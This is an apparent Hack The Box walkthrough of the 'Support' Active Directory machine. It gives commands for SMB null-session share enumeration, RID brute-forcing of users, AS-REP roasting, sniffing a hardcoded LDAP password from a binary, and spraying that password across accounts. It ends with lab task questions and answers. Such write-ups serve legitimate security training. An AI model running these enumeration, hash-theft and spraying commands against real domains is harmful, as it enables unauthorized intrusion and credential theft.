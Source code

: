 HTB - Support (Easy) 
AD/Windows

**nmap**
`sudo nmap -p- -Pn -T5 10.10.11.174 -oN nmap`



---
**SMB**

check shares with `netexec
`nxc smb rhost -u '' -p '' --shares`

check shares with `anonymous/guest` user
`nxc smb rhost -u 'anonymous' -p '' --shares`
![[Pasted image 20250506122620.png]]

we can see ``IPC`` is a `Relative Identifier (rid)` so we can bruteforce it
to enumerate users
`nxc smb rhost -u 'anonymous' -p '' --rid-brute
make a txt file of users

**asreproast**
steal asrep hashes of users
``impacket-GetNPUsers -request -dc-ip rhost -userfile ./users.txt support.htb``

nvm, it's useless anyway so dont bother
![[Pasted image 20250506130040.png]]

we can also see `support-tools` is also readable, so we can see its contents
`smbclient -U anonymous //rhost/support-tools`

---
**getting LDAP credentials**
install `mono` in your PC, if you dont have it yet, 
go to `https://www.mono-project.com/docs/getting-started/install/linux/`
after that, open wireshark and capture packets,
and then run the binary using 
`sudo wine UserInfo.exe`
in wireshark, look for packet that says `bindRequest` and you can find the credential

![[Pasted image 20250506180441.png]]

**verify credential**
check if other users uses the same password
`nxc smb rhost -u users.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-success`

use netexec to check ldap permission on shares
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares`

---
<h3>QUESTIONS</h3>
Task 1: How many shares is Support showing on SMB?
`6`
  
Task 2: Which share is not a default share for a Windows domain controller?
`support-tools`

Task 3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?
`UserInfo.exe.zip`

Task 4: What is the hardcoded password used for LDAP in the `UserInfo.exe` binary?

